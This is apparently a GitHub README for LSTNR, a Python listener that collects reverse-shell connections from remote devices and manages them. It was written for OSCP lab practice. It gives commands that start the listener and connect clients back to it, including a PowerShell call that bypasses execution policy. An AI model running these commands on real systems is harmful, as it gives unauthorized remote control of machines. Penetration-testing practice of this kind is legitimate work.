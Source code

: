 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE: CLI
1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

<img width="509" alt="Screenshot 2024-12-30 at 8 17 42 PM" src="https://github.com/user-attachments/assets/375e9059-e448-412c-8677-cac252d1da63" />

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
